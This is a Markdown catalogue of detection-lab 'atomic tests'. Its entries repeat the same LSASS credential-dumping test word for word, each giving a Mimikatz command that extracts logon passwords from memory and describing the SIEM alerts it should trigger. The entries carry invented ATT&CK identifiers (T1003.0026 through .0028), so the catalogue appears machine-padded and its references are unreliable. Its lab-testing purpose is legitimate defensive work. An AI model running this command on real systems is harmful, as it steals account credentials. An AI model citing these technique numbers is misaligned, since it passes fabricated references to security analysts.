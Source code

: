 ### Expected Behavior
- Logs generated in Sysmon, Winlogbeat, or Windows Event Log
- Command-line execution, process creation, or network activity

### Detection
- SIEM rule triggered
- Alert mapped to MITRE ATT&CK: **T1003.0026**

## ✅ T1003.0027 – LSASS Credential Dumping

### Description
Access LSASS memory to dump credentials using Mimikatz.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

### Tool Used
Mimikatz

### Expected Behavior
- Logs generated in Sysmon, Winlogbeat, or Windows Event Log
- Command-line execution, process creation, or network activity

### Detection
- SIEM rule triggered
- Alert mapped to MITRE ATT&CK: **T1003.0027**

## ✅ T1003.0028 – LSASS Credential Dumping

### Description
Access LSASS memory to dump credentials using Mimikatz.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

### Tool Used
Mimikatz
